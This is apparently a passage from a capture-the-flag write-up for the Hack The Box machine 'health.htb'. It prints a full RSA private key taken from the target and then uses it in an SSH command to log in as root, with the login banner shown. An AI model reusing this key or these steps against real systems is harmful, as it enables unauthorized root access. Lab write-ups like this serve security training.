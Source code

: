 ```bash
python3 -c 'print("-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n")'|tr -d '\'
tr: warning: an unescaped backslash at end of string is not portable
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
-----END RSA PRIVATE KEY-----
```
```bash
ssh root@health.htb -i root.pem
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 17 22:07:45 UTC 2022

  System load:  0.05              Processes:           184
  Usage of /:   69.3% of 3.84GB   Users logged in:     2
  Memory usage: 20%               IP address for eth0: 10.10.11.176
  Swap usage:   0%


```